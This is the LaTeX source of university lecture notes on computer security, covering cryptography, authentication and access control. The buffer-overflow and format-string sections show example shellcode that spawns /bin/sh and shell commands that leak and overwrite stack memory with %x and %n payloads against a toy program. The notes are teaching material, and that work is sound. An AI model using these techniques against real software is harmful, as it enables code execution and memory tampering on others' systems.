\documentclass{article}
\usepackage{titlesec}
\usepackage[colorlinks=true,urlcolor=blue,linkcolor=blue]{ hyperref}
\hypersetup{
	colorlinks=true,
	linkcolor=black,
	urlcolor=blue,
}
\usepackage{mathtools, amsmath, amssymb}
\usepackage{algorithm, algorithmic}
\usepackage{tikz}
\usetikzlibrary{positioning,arrows, shapes}
\newcommand{\sectionbreak}{\clearpage}
\newcommand{\xor}{\oplus}
\newcommand{\N}{\mathbb{N}}
\usepackage{multirow,tabularx,makecell, subfig}

\usepackage{arydshln}
\setlength{\dashlinedash}{0.5pt}
\setlength{\dashlinegap}{3pt}
\setlength{\arrayrulewidth}{0.5pt}

\tikzstyle{people}=[draw, fill=green!30, minimum size = 4em]
\tikzstyle{message}=[draw, minimum size=5em, execute at begin node=\setlength{\baselineskip}{0pt}\tiny]
\tikzstyle{key}=[draw, fill=red!25, execute at begin node=\setlength{\baselineskip}{0pt}\tiny]
\tikzstyle{enc} = [fill=blue!10, regular polygon, regular polygon sides=3,shape border rotate = 180]
\tikzstyle{dec}=[fill=blue!10, regular polygon, regular polygon sides=3]

\usepackage{xcolor,listings}

\definecolor{mGreen}{rgb}{0,0.6,0}
\definecolor{mGray}{rgb}{0.5,0.5,0.5}
\definecolor{mPurple}{rgb}{0.58,0,0.82}
\definecolor{backgroundColour}{rgb}{0.95,0.95,0.92}

\lstdefinestyle{CStyle}{
    backgroundcolor=\color{backgroundColour},   
    commentstyle=\color{mGreen},
    keywordstyle=\color{magenta},
    numberstyle=\tiny\color{mGray},
    stringstyle=\color{mPurple},
    basicstyle=\footnotesize,
    breakatwhitespace=false,         
    breaklines=true,                 
    captionpos=b,                    
    keepspaces=true,                 
    numbers=left,                    
    numbersep=5pt,                  
    showspaces=false,                
    showstringspaces=false,
    showtabs=false,                  
    tabsize=2,
    language=C
}

%Customize a bit the look
\lstset{ %
backgroundcolor=\color{white}, % choose the background color; you must add \usepackage{color} or \usepackage{xcolor}
basicstyle=\footnotesize, % the size of the fonts that are used for the code
breakatwhitespace=false, % sets if automatic breaks should only happen at whitespace
breaklines=true, % sets automatic line breaking
captionpos=b, % sets the caption-position to bottom
commentstyle=\color{mygreen}, % comment style
deletekeywords={...}, % if you want to delete keywords from the given language
escapeinside={\%*}{*)}, % if you want to add LaTeX within your code
extendedchars=true, % lets you use non-ASCII characters; for 8-bits encodings only, does not work with UTF-8
frame=single, % adds a frame around the code
keepspaces=true, % keeps spaces in text, useful for keeping indentation of code (possibly needs columns=flexible)
keywordstyle=\color{blue}, % keyword style
% language=Octave, % the language of the code
morekeywords={*,...}, % if you want to add more keywords to the set
numbers=left, % where to put the line-numbers; possible values are (none, left, right)
numbersep=5pt, % how far the line-numbers are from the code
numberstyle=\tiny\color{mygray}, % the style that is used for the line-numbers
rulecolor=\color{black}, % if not set, the frame-color may be changed on line-breaks within not-black text (e.g. comments (green here))
showspaces=false, % show spaces everywhere adding particular underscores; it overrides 'showstringspaces'
showstringspaces=false, % underline spaces within strings only
showtabs=false, % show tabs within strings adding particular underscores
stepnumber=1, % the step between two line-numbers. If it's 1, each line will be numbered
stringstyle=\color{mymauve}, % string literal style
tabsize=2, % sets default tabsize to 2 spaces
title=\lstname % show the filename of files included with \lstinputlisting; also try caption instead of title
}
%END of listing package%
 
\definecolor{darkgray}{rgb}{.4,.4,.4}
\definecolor{purple}{rgb}{0.65, 0.12, 0.82}
\definecolor{mygreen}{rgb}{0,0.6,0}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}
\definecolor{mymauve}{rgb}{0.58,0,0.82}
 
%define Javascript language
\lstdefinelanguage{JavaScript}{
keywords={typeof, new, true, false, catch, function, return, null, catch, switch, var, if, in, while, do, else, case, break},
keywordstyle=\color{blue}\bfseries,
ndkeywords={class, export, boolean, throw, implements, import, this},
ndkeywordstyle=\color{darkgray}\bfseries,
identifierstyle=\color{black},
sensitive=false,
comment=[l]{//},
morecomment=[s]{/*}{*/},
commentstyle=\color{purple}\ttfamily,
stringstyle=\color{red}\ttfamily,
morestring=[b]',
morestring=[b]"
}
 
\lstset{
language=JavaScript,
extendedchars=true,
basicstyle=\footnotesize\ttfamily,
showstringspaces=false,
showspaces=false,
numbers=left,
numberstyle=\footnotesize,
numbersep=9pt,
tabsize=2,
breaklines=true,
showtabs=false,
captionpos=b
}

\newcolumntype{M}[1]{>{\centering\arraybackslash}m{#1}}
\newcolumntype{Y}[1]{>{\centering\arraybackslash}X{#1}}

\usepackage{changepage}

\author{Matteo Secco}
\title{Computer Security}


\begin{document}
\maketitle
\newpage
\tableofcontents
\newpage

\section{Introduction to Computer Security}
\subsection{Security requirements}
\paragraph{CIA Paradighm}
\begin{description}
\item[Confidentiality] Information can be accessed only by authorized entities
\item[Integrity] information can be modified only by authorized entities, and only how they're entitled to do
\item[Availability] information must be available to entitled entities, within specified time constraints
\end{description}
The engineering problem is that \textbf{A} conflicts with \textbf{C} and \textbf{I}

\section{Computer Security Concepts}
\subsection{General concepts}

\paragraph{Vulnerability} Something that allows to violate some CIA constraints
\begin{itemize}
\item The physical behaviour of pins in a lock
\item A software vulnerable to SQL injecton
\end{itemize}

\paragraph{Exploit} A specific way to use one or more vulnerability to violate the constraints
\begin{itemize}
\item lockpicking
\item the strings to use for SQL injection
\end{itemize}

\paragraph{Assets} what is valuable/needs to be protected
\begin{itemize}
\item hardware
\item software
\item data
\item reputation
\end{itemize}

\paragraph{Thread} potential violation of the CIA
\begin{itemize}
\item DoS
\item data break
\end{itemize}

\paragraph{Attack} an \underline{intentional} use of one or more exploits aiming to compromise the CIA
\begin{itemize}
\item Picking a lock to enter a building
\item Sending a string creafted for SQL injection
\end{itemize}

\paragraph{Thread agent} whoever/whatever may cause an attack to occour
\begin{itemize}
\item a thief
\item an hacker
\item malicious software
\end{itemize}

\paragraph{Hackers, attackers, and so on}
\begin{description}
\item[Hacker] Someone proficient in computers and networks
\item[Black hat] Malicious hacker
\item[White hat] Security professional
\end{description}

\paragraph{Risk} statistical and economical evaluation of the exposure to damage because of vulneravilities and threads\\
$Risk = \underbrace{Assets \times Vulnerabilities}_\text{controllable} \times \underbrace{Threads}_\text{independent}$
\paragraph{Security} balance of (vulnerability reduction+damage containment) vs cost

\subsection{Security vs Cost} 

\paragraph{Direct cost}
\begin{itemize}
\item Management
\item Operational
\item Equipment
\end{itemize}

\paragraph{Indirect cost}
\begin{itemize}
\item Less usability
\item Less performance
\item Less privacy
\end{itemize}

\paragraph{Trust} We must \textbf{assume} something as secure
\begin{itemize}
\item the installed software?
\item our code?
\item the compiler?
\item the OS?
\item the hardware?
\end{itemize}


\section{Introduction to crypthography}
\paragraph{Kerchoffs' Principle} The security of a (good) cryptosystem relies only on the security of the key, never on the secrecy of the algorithm
\subsection{Perfect Chipher}
\begin{itemize}
\item $P(M=m)$ probability of observing message m
\item $P(M=m|C=c)$ probability that the message was m given the observed cyphertext c
\end{itemize}
\paragraph{Perfect cypher: } $P(M=m|C=c)=P(M=m)$
\paragraph{Shannon's theorem} in a perfect cipher $|K|\geq |M|$
\paragraph{One Time Pad} a real example of perfect chipher
\begin{algorithm}
\caption{One Time Pad}
\begin{algorithmic}
\REQUIRE $len(m)=len(k)$
\REQUIRE keys not to be reused
\RETURN $k \xor m$
\end{algorithmic}
\end{algorithm} 

\paragraph{Brute Force} perfect chyphers are immune to brute force (as many "reasonable" messages will be produced). Real world chiphers are not.\\
A real chipher is vulnerable if there is a way to break it that is faster then brute forcing

\paragraph{Types of attack}
\begin{description}
\item[Ciphertext attack] analyst has only the chipheertexts
\item[Known plaintext attack] analyst has some pairs of plaintext-chiphertext
\item[Chosen plaintext attack] analyst can choose plaintexts and obtain their respective ciphertext
\end{description}

\subsection{Symmetric encryption}

\begin{tikzpicture}[node distance=2.5cm,auto]
	\node[people] (alice) {Alice};
	\node[message, below of=alice] (msgAlice) {Hello Bob!};
	\node[enc, right of=msgAlice](e){E};
	\node[key, above of=e] (keyAlice) {secret};
	\node[message, right of=e, align=left] (chip) {
		6975d13dd353b4b5b3847\\
		c9a7462c65bb36a19048b\\
		5aa4d34b37feb0066600a\\
		5e027df272131a88808bf\\
		91f440d810875f3d8d33e\\
		55821db7611be4542cedc4d};
	\node[cloud, draw, right of = keyAlice, aspect=3] (chan) {\tiny trusted channel};
	\node[dec, right of=chip](d){D};
	\node[key, above of=d](keyBob){secret};
	\node[message, right of=d](msgBob){Hello Bob!};
	\node[people, above of=msgBob](bob){Bob};
	\path[->] (alice) edge (msgAlice);
	\path[->] (msgAlice) edge (e);
	\path[->] (alice) edge (keyAlice);
	\path[->] (keyAlice) edge (e);
	\path[->] (keyAlice) edge (chan);
	\path[->] (chan) edge (keyBob);
	\path[->] (e) edge (chip);
	\path[->] (chip) edge (d);
	\path[->] (keyBob) edge (d);
	\path[->] (d) edge (msgBob);
	\path[->] (msgBob) edge (bob);
\end{tikzpicture}

Use \textbf{K} to both encrypt and decript the message\\
Scalability issue\\
Key agreement issue

\subsubsection{Ingredients} 
\begin{description}
\item[Substitution] Replace each byte with another (ex: caesar chipher)
\item[Transposition] swap the values of given bits (ex: read vertically)
\end{description}

\subsection{Asymetric encryption}

\begin{tikzpicture}[node distance=2.5cm];
	\node[people] (alice) {Alice};
	\node[key, right=of alice.30] (pubAlice) {$P_a$};
	\node[cloud, aspect=3, right of=pubAlice, draw, anchor=45+90] (chan) {\tiny untrusted channel};
	\node[key, right= of chan.330] (pubBob) {$P_b$};
	\node[people, right of = pubBob, anchor=210] (bob) {Bob};
	\node[key, below of=alice] (secAlice) {$S_a$};
	\node[key, below of=bob] (secBob) {$S_b$};
	\path[->] (alice.30) edge (pubAlice);
	\path[->] (pubAlice) edge (bob.150);
	\path[->] (bob.210) edge (pubBob);
	\path[->] (pubBob) edge (alice.-30);
	\path[-] (alice) edge (secAlice);
	\path[-] (bob) edge (secBob);
\end{tikzpicture}
Each user owns a private and a public key ($S_i,P_i$), where the public key is publicly available. The cryptoalgorithm is designed so that messages encrypted using $P_i$ can only be decrypted using $S_i$. This allows Alice to encrypt a message using $P_{bob}$, and Bob (and nobody else) to decrypt is using $S_{bob}$.
Also, to prove its identity, Bob could send a message encrypted using $P_{bob}$. When Alice manages to decrypt is using $P_{bob}$, she can be sure that the message came from Bob


\subsection{Hash functions}
A function $H: X \to Y$ having $|X|=\infty$ but $|Y|=k \in \mathbb{N}$. This means $|Y|<|X|$, leading to \underline{collisions}: couples $x_1,x_2\in X: H(x_1)=H(x_2)$.
\paragraph{Safery properties} are proberties needed to ensure robustness of $H$. In particular, it must be computationally infeasible to find:
\begin{description}
\item[preimage attack resistance] $x: H(x)=h$ with $h$ known/crafted
\item[second preimage attack resistance] $y: y \neq x \wedge H(x)=H(y)$, where $x$ is known/crafted
\item[collision resistance] $x, y: H(x)=H(y)$  
\end{description}


\subsubsection{Attacks to Hash Functions}
\paragraph{Preimage attack} Given an hash $h$, the attacker can find $x$ such that $H(x)=h$, or given $x$, they can find $y$ such that $H(x)=H(y)$. This can be done \underline{faster than brute force}.\\
With $|Y|=n$, random collisions happen in $2^{n-1}$ cases
\paragraph{Simplified collision attack} The attacker can generate $x,y:\:H(x)=H(y)$ \underline{faster than brute force}.\\
Random collisions happen in $2^{n/2}$ cases (for the \href{https://en.wikipedia.org/wiki/Birthday_problem}{Birthday paradox}) 


\subsection{Digital Signature}
To digitally sign a message, we first hash the message. Then, we encrypt the hash with our private key.\\
This however only guarantees that the sign was produced using our secret key, but someone may have stolen/guessed our private key.
\subsubsection{PKI} Public Key Infrastructures is a service entitled to associate an identity to a key.\\
To do so it uses a \underline{trusted} third party called \textbf{Certification Authority}. The CA signs files called \textbf{digital certificates}, which bind an identity  to a public key.
\paragraph{Top-level CA} is a special CA that self-signs its certificates. It is a \underline{trusted element}.\\
The Root CA can then sign certificates for other CAs. In practice, a Root CA is a real  world CA (the state, a regulatory organization...)
\paragraph{Revocation} Signatures cannot be revoked, but certificates can be revoked  (declared invalid), for example because the private key has been broken.\\
To do so, a Certificate Revocation List must exist for each CA

\section{Authentication}
\paragraph{Identification} an entity provides its identifier
\paragraph{Authentication} an entity provides \underline{a proof} that verifies its identity
\begin{itemize}
\item Unidirectional authentication
\item Bidirectional authentication
\end{itemize}
\paragraph{Three factors authentication}
\begin{description}
\item[Something I know] low cost, easy to deploy, low effectiveness . Possible attack classes are snooping (so change the passwords), cracking (so use strong passwords) and guessing (so don't use your birthday)
	\begin{itemize}
		\item Password
		\item PIN
		\item Secret handshake
	\end{itemize}
\item[Something I have] reduces the impact of human factor, relatively low cost, high security. Hard to deploy, can be lost (so use a backup factor)
	\begin{itemize}
		\item Door key
		\item Smart card
	\end{itemize}
\item[Something I am] High level of security, no extra hw needed. Hard to deploy, non-deterministic, invasive, can be cloned. Biological entities change, privacy can be an issue, users with disabilities may be restrained.
	\begin{itemize}
		\item DNA
		\item Voice
		\item Fingerprint
		\item Face scan
	\end{itemize}
\end{description}
\paragraph{Single Sign On} Like OAuth2: exploit an ad-hoc authentication server, accessible from many apps

\section{Access control}
\begin{itemize}
\item Binary decision: allowed or denied
\item Hard to scale (answers must be condensed in rules)
\item Questions:
	\begin{itemize}
	\item How do we design the rules?
	\item How do we express them?
	\item How do we apply them?
	\end{itemize}
\end{itemize}
\paragraph{Reference monitor} entity that encorces control access policies. Implemented by default in all modern kernels
\begin{itemize}
\item Tamper proof
\item Cannot be bypassed
\item Small enough to be verified/tested
\end{itemize}
\subsection{Access Control Models}
\paragraph{Discretionary Access Control} Resource owner \underline{discretionarily} decides the access privileges of the resource. Default in all off-the-shelf OS.
\subsubsection{Model}
We need to model:
\begin{description}
\item[Subjects] Who can exercise privileges
\item[Objects] On what privileges can be exercised
\item[Actions] Which can be exercised
\end{description}
\begin{tabular}{|c|c|c|c|c:}
\hline
&\textbf{file1}&\textbf{file2}&\textbf{directory7}&\textbf{\dots}\\
\hline
\textbf{Alice}&Read&Read,Write,Own&&\dots\\
\textbf{Bob}&Read,Write,Own&Read&Read,Write,Own&\dots\\
\textbf{Charlie}&Read,Write&&Read&\dots\\
\textbf{\dots}&\dots&\dots&\dots&$\ddots$\\
\hdashline
\end{tabular}
\subsubsection{HRU model}
\paragraph{Basic operations}
\begin{itemize}
\item Create/destroy subject $S$
\item Create/destroy object $O$
\item Add/remove permission from $[S,O]$ matrix
\end{itemize}
\paragraph{Transitions} atomic sequence of basic operations (as usual)
\paragraph{Safety problem} Does it exist a transition that leaks a certain right into the access matrix?
\subparagraph{Undecidable problem} becomes decidable if
\begin{itemize}
\item Mono-operational systems $\rightarrow$ useless
\item Finite number of objects/subjects
\end{itemize}
\subsection{Common implementation}
\begin{itemize}
\item Reproduction of HRU models
\item Sparse access matrix
\item Authorizations table (records S-O-A triples)
\item Access control list (record by colums: S-A per O)
\item Capability List (records by row (O-A by S)
\end{itemize}
\subsection{Issues}
\begin{itemize}
\item Safety cannot be proven
\item Coarse granularity (can't check data inside the objects)
\item Scalability and management (each user can compromise security)
\end{itemize}
\subsection{Mandatory Access Control}
\paragraph{Administrator} single entity establishing access privileges
\paragraph{Secrecy levels} strictly ordered set of access classes
\paragraph{Labels} used to classify objects
\paragraph{Example}
\begin{tabular}{|c|c|}
\textbf{Secrecy levels}&
\textbf{Labels}\\
\hline
Top Secret&Policy\\
Secret&Energy\\
For Official Use Only&Finance\\
Unclassified&Atomic
\end{tabular}
\paragraph{Lattice} Touple $<$Level, Label$>$.
\paragraph{Classification} obtained by a partial order relationship. ${C_1,L_1}\geq{C_2,L_2} \leftrightarrow C_1\geq C_2 \wedge L_2 \subseteq L_1$. Such relation is reflexive, transitive, antisymmetric.
\subsubsection{BLP model}

\paragraph{No read up} cannot read documents with higher security level than mine
\paragraph{No write down} cannot write documents having a lower security level that mine (to avoid leaking of information)
\paragraph{Discretionary Security Policy} An access matrix can be used to specify discretionay access control
\paragraph{Tranquility} Secrecy levels of objects cannot change dinamically
\section{Software Security}
Good software engineering $\rightarrow$ meet requirements. Security is a \underline{non funcional} requirement. \textit{The rest of the lesson is history and not particularly interesting}


\section{Buffer Overflow}
\subsection{Memory stack}
\begin{tabularx}{0.5\linewidth}{r|c|lX}
\cline{2-3}
High&Argc&\multirow{5}{*}{\makecell[l]{Statically allocated local variables \\ Function activation records\\ Grows down}}\\
\cline{2-2}
0xC0000000&Env pointer\\
\cline{2-2}
&\multirow{3}{*}{Stack}&\\
&&\\
0xBFF00000&&\\
\cline{2-3}
&$\downarrow$&\multirow{2}{*}{Unallocated memory}\\
&$\uparrow$&\\
\cline{2-3}
&\multirow{2}{*}{Heap} &\multirow{2}{*}{\makecell[l]{Dynamically allocated data\\Grows up}}\\
&&\\
\cline{2-3}
&\multirow{2}{*}{.data} & \multirow{2}{*}{Initialized data (ex: global variables)}\\
&&\\
\cline{2-3}
& .bss & \multirow{1}{*}{Not initialized data (0s)}\\
\cline{2-3}
&\multirow{4}{*}{.text}&\multirow{4}{*}{Executable code (machine instructions)}\\
&&\\
&&\\
0x0804800&&\\
\cline{2-3}
Low&Shared Libraries&\\
\cline{2-2}
\end{tabularx}
\subsection{Registers}
\paragraph{General purpose registers} execute common operations. Store data and addresses.
\begin{description}
\item[ESP] Contains the address of the last stack operation: \underline{Top of the stack}
\item[EBP] Contains \underline{the base of the current funciton frame}
\end{description}
\paragraph{Segment} 16-bit reisters to keep track of segments and backward compatibility
\paragraph{Control} control the execution/operation of the processor
\begin{description}
\item[EIP] Address of the next instruction to execute
\end{description}
\paragraph{Other} EFLAG: 1 bit register containing results of tests performed by the processor
\subsection{Code structure}
\begin{tabularx}{0.5\linewidth}{r|cc|l}
\cline{2-3}
\multirow{4}{*}{main()}&add&\dots , \dots &\\
\cline{2-3}
&\dots &&\\
\cline{2-3}
&call&0x8048484&$\leftarrow$ EIP\\
\cline{2-3}
&\dots &&\\
\cline{1-3}
\multirow{4}{*}{foo()}&ret&&0x80484ce\\
\cline{2-3}
&\dots &&\\
\cline{2-3}
&mov&\%esp,\%ebp&\\
\cline{2-3}
&push&\%ebp&0x8048484\\
\cline{1-3}
&\dots &&\\
\cline{2-3}
&mov&\%esp,\%ecx&\dots\\
\cline{2-3}
&pop&\%esi&0x80483c1\\
\cline{2-3}
Entry point$\rightarrow$&xor&\%ebp,\%ebp&0x80483c0\\
\cline{2-3}
\end{tabularx}
\subsection{On function call}
\paragraph{Before jumping tho called}
\begin{itemize}
\item The EIP is saved on the stack (so we know where to resume execution after return)
\item The EBP is saved on the stack (so we can restore the memory)
\item The ESP points to the cell after the saved EBP
\end{itemize}
\paragraph{Before the funciton returns}
\begin{itemize}
\item The saved EBP is restored
\item The saved EBP is popped from the stack
\item The return instructions uses the saved EIP to jump back to the caller
\end{itemize}
\pagebreak
\subsection{Stack smashing}
\begin{lstlisting}[style=CStyle]
int foo(int a, int b){
	int c = 14;
	char buf[8];
	
	gets(buf);
	
	c = (a+b)*c;
	return c;
}
\end{lstlisting}
\[
\rotatebox[origin=c]{-90}{Memory allocation}
\left\downarrow
\quad
\begin{tabular}{|M{2cm}|}
\hline
\\
\hline
\dots\\
\hline
ArgN\\
\hline
\dots\\
\hline
Arg2\\
\hline
Arg1\\
\hline
\color{red} Saved EIP\\
\hline
Saved EBP\\
\hline
Var1\\
\hline
buf[4-7]\\
\hline
buf[0-3]\\
\hline
VarN\\
\hline
\end{tabular}
\quad
\right\uparrow
\rotatebox[origin=c]{90}{Memory writing}
\qquad
\xrightarrow{\substack{\text{Typing}\\\color{red}\text{ABCDEFGHIJKLMNOPQRST}\\\text{on gets() [line 5]}}}
\qquad
\rotatebox[origin=c]{-90}{Memory allocation}
\left\downarrow
\quad
\begin{tabular}{|M{2cm}|}
\hline
\\
\hline
\dots\\
\hline
ArgN\\
\hline
\dots\\
\hline
Arg2\\
\hline
Arg1\\
\hline
\color{red} QRST\\
\hline
\color{red} MNOP\\
\hline
\color{red} IJKL\\
\hline
\color{red} EFGH\\
\hline
\color{red} ABCD\\
\hline
VarN\\
\hline
\end{tabular}
\quad
\right\uparrow
\rotatebox[origin=c]{90}{Memory writing}
\]
\paragraph{Possible jumping destinations}
\begin{itemize}
\item Environment variables
\item Built-in functions
\item Memory we can control
	\begin{itemize}
	\item The buffer itself!
	\item Some other variable
	\end{itemize}
\end{itemize}
\paragraph{The address of the buffer/EIP is hard to find!} An estimate can be retrieved using a debugger, but it's not precise. Need to have a bigger "landing strip"! NOP sleds are used for this

\[
\begin{tabular}{r|M{3cm}|}
\cline{2-2}
&\dots\\
\cline{2-2}
&Saved EIP\\
\cline{2-2}
&Saved EBP\\
\cline{2-2}
&Var1\\
\cline{2-2}
&VarN\\
\cline{2-2}
&buf[20-23]\\
\cline{2-2}
&buf[16-19]\\
\cline{2-2}
&buf[12-15]\\
\cline{2-2}
approx. address&buf[8-11]\\
\cline{2-2}
&buf[4-7]\\
\cline{2-2}
&buf[0-3]\\
\cline{2-2}
\end{tabular}
\qquad
\rightarrow
\qquad
\begin{tabular}{|M{3cm}|l}
\cline{1-1}
\dots\\
\cline{1-1}
approx address\\
\cline{1-1}
my code\\
\cline{1-1}
my code\\
\cline{1-1}
my code\\
\cline{1-1}
my code\\
\hline
0x90909090&\multirow{5}{*}{\makecell{Valid landing strip\\Each cell contains \\4 NOPs (0x90)\\Safety offset of +-4}}\\
\cline{1-1}
0x90909090\\
\cline{1-1}
0x90909090\\
\cline{1-1}
0x90909090\\
\cline{1-1}
0x90909090\\
\hline
\end{tabular}
\]
\paragraph{What to execute} Shellcode: code to spawn a (privileged) shell. It basically consists in executing execve("/bin/sh") 
\subparagraph{Writing shellcode}
\begin{enumerate}
\item Write high-level code
\item Compile and disassembly
\item Analyse and clean up the assembly
\item Extract the opcode
\item Create the shellcode
\end{enumerate}
\subparagraph{Shell code example}
\begin{lstlisting}[style=CStyle]
int main(){
	char* hack[2];
	
	hack[0]="/bin/sh";
	hack[1]=NULL;
	
	execve(hack[0], &hack, &hack[1]);
}
\end{lstlisting}
\subsection{Defending against Buffer Overflow}
\label{sec:defending buffer overflow}
\paragraph{Source code level defence}
\begin{itemize}
\item Use safer libraries: strncpy instead of strcpy, for example
\item Use languages with Dynamic Memory Management (like java) to make guessing the buffer address harder
\end{itemize}
\paragraph{Compiler level defence}
\begin{itemize}
\item Warnings from the compiler
\item Randomized reordering of stack variables
\item Canary: insert a control value between the saved EIP/EBP and the local variables, and check it to know if the stack has been compromised. 
	\begin{description}
	\item[Terminator canaries] made of '\textbackslash 0', which cannot be written by usual functions
	\item[Random canaries] random bytes choosen at runtime
	\item[Random XOR canaries] Random canaries, but XORed with part of the structure we want to protect (R=a random number, always the same$\wedge$X=something, like the EIP$\implies$ R$\xor$X$\xor$R$=$R$\xor$R$\xor$X$=$0$\xor$X$=$X
	\end{description}
\end{itemize}
\paragraph{OS level defence}
\begin{itemize}
\item Non-executable stack (can still be breached by returning to standard libraries)
\item Address space Layout Randomization: reposition the stack at each execution
\end{itemize}


\section{Format String Bugs}
\paragraph{Format string} You know, the strings with "\%d" and similar in them
\paragraph{Vulnerable example}
\begin{lstlisting}[style=CStyle]
#include <stdio.h>

void test(char* arg){
    char buf[250];
    snprintf(buf, 250, arg);
    printf("buffer: %s\n", buf);
}

int main(int argc, char* argv[]) {
    test(argv[1]);
    return 0;
}
\end{lstlisting}
Two executions of the code above result in the following
\begin{lstlisting}[language=bash]
$ ./code "ciao"
buffer: ciao

$ ./code "%x %x %x"
buffer: f59b87a0 d1772d80 d1772d80	#addresses!
\end{lstlisting}

\[
	\color{blue}
	\rotatebox[origin=c]{90}{read by \%i \%i \%i}\left\uparrow
	\color{black}
	\quad
	\begin{tabularx}{\linewidth}{|Y|c|Y|}
	\multicolumn{1}{c}{\multirow{2}{*}{\tiny snprintf(buf, 250, "\%i \%i \%i", \color{blue}a, b, c\color{black});}}&
	\multicolumn{1}{c}{}&
	\multicolumn{1}{c}{\multirow{2}{*}{\tiny snprintf(buf, 250, "\%i \%i \%i");}}\\
	\multicolumn{1}{c}{}\\
	\cline{1-1}\cline{3-3}
	something more&&\makecell{\color{blue}something more}\\
	\cline{1-1}\cline{3-3}
	something else&&\makecell{\color{blue}something else}\\
	\cline{1-1}\cline{3-3}
	something&&\makecell{\color{blue}something}\\
	\hline
	\makecell{\color{blue}c}&\multirow{5}{*}{\rotatebox[origin=c]{-90}{snprintf() stack}}&\makecell{\color{red}\&"\%i \%i \%i"}\\
	\cline{1-1}\cline{3-3}
	\makecell{\color{blue}b}&&\makecell{\color{red}250}\\
	\cline{1-1}\cline{3-3}
	\makecell{\color{blue}a}&&\makecell{\color{red}\&buf}\\
	\cline{1-1}\cline{3-3}
	\makecell{\color{red}\&"\%i \%i \%i"}&\multicolumn{1}{c}{}&\multicolumn{1}{c}{}\\
	\cline{1-1}
	\makecell{\color{red}250}&\multicolumn{1}{c}{}&\multicolumn{1}{c}{}\\
	\cline{1-1}
	\makecell{\color{red}\&buf}&\multicolumn{1}{c}{}&\multicolumn{1}{c}{}\\
	\cline{1-1}
	\multicolumn{1}{c}{\textbf{Non vulnerable}}&\multicolumn{1}{c}{}&	\multicolumn{1}{c}{\textbf{Vulnerable}}
	\end{tabularx}
	\quad
	\color{blue}
	\right\uparrow\rotatebox[origin=c]{90}{read by \%i \%i \%i}
	\color{black}
\]

\subparagraph{Specific access}
\begin{lstlisting}[style=CStyle]
#include <stdio.h>

void test(char* arg){
    char buf[250];
    snprintf(buf, 250, arg);
    printf("buffer: %s\n", buf);
}

int main(int argc, char* argv[]) {
    test(argv[1]);
    return 0;
}
\end{lstlisting}
Two executions of the code above result in the following
\begin{lstlisting}[language=bash]
$ ./code "%x %x %x"
buffer: f59b87a0 d1772d80 d1772d897


$ ./code "%3\$x"
buffer: d1772d897	#the third!
\end{lstlisting}
We can use loops to find interesting positions (design the vulnerability), and then aim for those positions directly (deploy it):
\begin{lstlisting}[language=bash]
$ for i in `seq 1 3`; do echo -n "$i " && ./code "$i\$x"; done
1 buffer: f59b87a0 
2 buffer: d1772d80 
3 buffer: d1772d897
\end{lstlisting}
We can also look for specific values:
\begin{lstlisting}[language=bash]
$ for i in `seq 1 3`; do echo -n "$i " && ./code "$i\$x"; done | grep d897
3 buffer: d1772d897
\end{lstlisting}

\subsection{Writing using format string bugs}
\paragraph{Super powerful placeholder:} printf("hello\color{blue}\%n \color{black}",\&i) $\rightarrow$ writes \underline{in i} the \underline{number of chars (bytes)} printed so far (in the example it will write 5)
\paragraph{Writing an address on the stack:}
\begin{lstlisting}[language=bash]
$ ./code "AAAA%2$n"
\end{lstlisting}
Is equivalent to 
\begin{lstlisting}[language=bash]
$ ./code "`python -c 'print "AAAA%2$n"'`"
\end{lstlisting}
Which is equivalent to 
\begin{lstlisting}[language=bash]
$ ./code "`python -c 'print "\x41\x41\x41\x41%2$n"'`"
\end{lstlisting}
We can replace the \textbackslash x41 with whatever bytes we like (in hex), inserting whatever address we like 
\paragraph{Writing arbitrary numbers} 
\begin{lstlisting}[style=CStyle]
void main(){		//padding.c
	printf("%050c\n",'D');
	printf("%030c\n",'D');
	printf("%013c\n",'D');
}
\end{lstlisting}
\begin{lstlisting}[language=bash]
$ ./padding
00000000000000000000000000000000000000000000000000D	#50
000000000000000000000000000000D	#30
0000000000000D		#13
\end{lstlisting}
Using this:
\begin{lstlisting}[language=bash]
$ ./code "`python -c 'print "\x41\x41\x41\x41%50000c%2$n"'`"
\end{lstlisting}
We are writing the value 50004 (50000 for the padding, 4 for the bytes of the address)
